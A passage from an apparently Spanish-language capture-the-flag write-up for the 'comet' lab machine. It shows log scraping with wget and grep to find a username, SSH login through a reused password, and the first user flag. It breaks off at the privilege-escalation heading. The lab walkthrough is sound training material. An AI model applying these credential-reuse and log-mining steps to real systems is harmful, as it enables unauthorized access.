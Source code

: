 Al introducir la contraseña aparentemente no sucede nada.

```bash
❯ ./firewall_update
Enter password: p**********
Firewall successfully updated
```

Probamos con SSH por si se reciclan credenciales. De primeras no tenemos ningún usuario, podríamos tirar de fuerza bruta de nuevo, pero antes vamos a buscar primero en los logs de antes para ver si encontramos alguno.

```bash
❯ wget -rq http://192.168.18.94/logFire/

❯ cat firewall.log* | grep -vE "unauthorized|refused|Intrusion|Dropped|detected"
2023-02-19 16:35:31 192.168.1.10 | 192.168.1.50 | Allowed | Inbound connection | Joe
```

Filtrando por palabras que no nos interesan damos con un usuario: Joe.

```bash
❯ ssh joe@192.168.18.94
joe@192.168.18.94's password:
Linux comet.hmv 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 18 17:56:32 2023 from 192.168.18.37
joe@comet:~$
```

Tenemos shell!

En el directorio home encontramos la primera flag `user.txt`.

```bash
joe@comet:~$ ls -la
total 32
drwxr-xr-x 3 joe  joe  4096 Jun 19 14:22 .
drwxr-xr-x 3 root root 4096 Feb 19 19:33 ..
lrwxrwxrwx 1 root root    9 Feb 25 17:03 .bash_history -> /dev/null
-rw-r--r-- 1 joe  joe   220 Feb 19 10:51 .bash_logout
-rw-r--r-- 1 joe  joe  3526 Feb 19 10:51 .bashrc
-rwxr-xr-x 1 root root  366 Feb 19 10:51 coll
drwxr-xr-x 3 joe  joe  4096 Feb 19 10:51 .local
-rw-r--r-- 1 joe  joe   807 Feb 19 10:51 .profile
-rwx------ 1 joe  joe    33 Feb 19 10:51 user.txt
```

## Escalada

